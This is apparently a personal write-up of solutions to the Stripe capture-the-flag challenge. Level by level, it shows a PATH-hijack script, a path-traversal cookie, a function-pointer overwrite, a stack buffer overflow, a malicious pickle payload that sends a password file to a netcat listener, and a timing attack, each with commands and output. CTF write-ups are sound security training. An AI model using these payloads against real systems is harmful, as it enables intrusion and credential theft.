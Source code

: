 Stripe CTF
==========

https://stripe.com/blog/capture-the-flag

My solutions to the Stripe CTF solution are as follows.
Note that in many cases the code isn't very robust or workable. But was
the minimum needed to complete the level.

Level 01
--------

On observing that the system call within level01.c made an unchecked
call to 'date' without a full path specified I created a local date
file and set it to the local path. That file was simple shell script
containing 'cat /home/level02/.password'.

    level01@ctf:/tmp/tmp.8N0qqvoaVu$ export PATH=/tmp/tmp.8N0qqvoaVu:$PATH
    level01@ctf:/tmp/tmp.8N0qqvoaVu$ chmod a+x date
    level01@ctf:/tmp/tmp.8N0qqvoaVu$ /levels/level01
    Current time: kxlVXUvzv

Level 02
--------

Level 2 uses the contents of the clients cookie to read a file without
escaping the contents. Via a browser I modified the cookie set by the
level to the following and the password was printed as part of the web
page.

    Change cookie to ../../home/level03/.password
    Or0m4UX07b

Level 03
--------

I had never performed any sort of pointer arithmatic outside of an
introductory CS course. So this was certainly a challenge for me.
Outside of level 6 I think I spent more time on this level than any of
the other ones.

On reading level 3's source code I noticed that it was executing the
function via an array of function pointers. However the selection
mechanism used an argument which only checked for positive numbers >= 3
and not for number < 0.

After spending more time with it and gdb I realized you could select a negative
number which pointed to a specific location in the string buffer you
pass as an argument as well. After some fiddling I provided the memory
address of the deprected run function.

    level03@ctf4:/tmp/tmp.uuCAtV5Uog$ /levels/level03 -21 'cat /home/level04/.password;'$'\x5b'$'\x87'$'\x04'$'\x08'
    i5cBbPvPCpcP
    sh: [: not found

Level 04
--------

Like Level 03 I had never performed a buffer overflow before. I did some
searching and came across the following which amounts to a [buffer
overflows for dummies](http://biblio.l0t3k.net/b0f/en/BOFwithperl.txt). With some tweaking I was
able to make it work for the level 4 binary. It works about 50% of the
time. From what I understand Linux uses some sort of stack randomization
to prevent this sort of attack. From reading other reports online there
is a way to get a dterministic solution but I didn't take the time to
expore that.

    Offset:-994Address: 0xffa368fe
    Executing
    Buffer:57200
    Buffer:0
    $ 
    $ whoami
    level05
    $ cat /home/level05/.password
    fzfDGnSmd317

Level 05
--------

After looking at the python web server and running it locally. I noticed
that it wasn't properly escaping user input and allowed a file
containing executable code to be written to. I pickled up a simple
exploit, started a netcat server listening and passed it through.

    level05@ctf4:/tmp/tmp.7mKxYf6M1c$ nc -l 9333 &
    [1] 24599
    level05@ctf4:/tmp/tmp.7mKxYf6M1c$ 
    level05@ctf4:/tmp/tmp.7mKxYf6M1c$ curl localhost:9020 -d "DATA; job: cos
    system
    (S'nc localhost 9333 < /home/level06/.password'
    tR.'
    tR.
    "
    SF2w8qU1QDj
    {
        "result": "Job timed out"
    }
    [1]+  Done                    nc -l 9333

Level 06
--------

Of all the challenges this one
took the most time. I had heard of and felt I understood the
implementation of a timing attack but had no idea how hard it would be
to actually implement.

First I tried something written in ruby to test the time taken to run
the command, however I saw very little difference in how fast something
failed. Given that I was initially testing for the difference between 1
variable check and two and the precision of the ruby clock was only in
nanoseconds this failed right away.

Then I tried an [implementation](https://github.com/dividuum/stripe-ctf) that already existed online simply to
see if they could work given that many of the servers were under heavy
load and actively running out of forks. But even the supposed solution
above failed to work for me as it seems to depend on the binary forking
and reporting failure almost immediately which I wasn't even able to
replicate locally.

Finally I settled on passing very large arguments to slow down the
evaluation, similar to the solution above. Then timed each char read in
microseconds via a small c program. The fork operation takes slightly
longer to run than a normal character check and therefore with
microsecond precision you can determine where the failure occured.

This solution worked perfectly for me locally but I had to tune it on
stripe's servers in order to get it to work. I'm not sure if I was
reading the buffer incorrectly, the machine was overloaded or if my code
just runs in a way that I'm not expecting. Either way with some fine
tuning and extra sanity checks I was able to get it to run against the password file
and produce the answer.

    level06@ctf5:/tmp/tmp.2eCZvV2CuJ$ ruby ruby_wrapper.rb 
    Suffix: 130772
    {"t"=>4}
    Answer: t
    {"h"=>5}
    Answer: th
    {"e"=>5}
    Answer: the
    {"f"=>4}
    Answer: thef
    {"l"=>5}
    Answer: thefl
    {"a"=>5}
    Answer: thefla
    {"g"=>5}
    Answer: theflag
    {"l"=>5}
    Answer: theflagl
    {"0"=>4}
    Answer: theflagl0
    {"e"=>4}
    Answer: theflagl0e
    {"F"=>4}
    Answer: theflagl0eF
    {"T"=>5}
    Answer: theflagl0eFT
    {"t"=>5}
    Answer: theflagl0eFTt
    {"I"=>1, "T"=>5}
    Answer: theflagl0eFTtT
    {"5"=>5}
    Answer: theflagl0eFTtT5
    {"o"=>5}
    Answer: theflagl0eFTtT5o
    {"i"=>5}
    Answer: theflagl0eFTtT5oi
    {"0"=>4}
    Answer: theflagl0eFTtT5oi0
    {"n"=>5, "r"=>1}
    Answer: theflagl0eFTtT5oi0n
    {"O"=>5}
    Answer: theflagl0eFTtT5oi0nO
    {"T"=>5}
    Answer: theflagl0eFTtT5oi0nOT
    {"x"=>5, "e"=>1}
    Answer: theflagl0eFTtT5oi0nOTx
    {"O"=>5}
    Answer: theflagl0eFTtT5oi0nOTxO
    {"5"=>5}
    Answer: theflagl0eFTtT5oi0nOTxO5
    {}
    Answer: theflagl0eFTtT5oi0nOTxO5


    level06@ctf5:/tmp/tmp.2eCZvV2CuJ$ /levels/level06 /home/the-flag/.password theflagl0eFTtT5oi0nOTxO5
    Welcome to the password checker!
    ........................
    Wait, how did you know that the password was theflagl0eFTtT5oi0nOTxO5?

The Flag
--------

You're able to login as the flag user but I couldn't find anything
special or a secret next level. Perhaps I didn't look hard enough?

    the-flag@ctf5:/tmp/tmp.qCU4Sz2RhR$
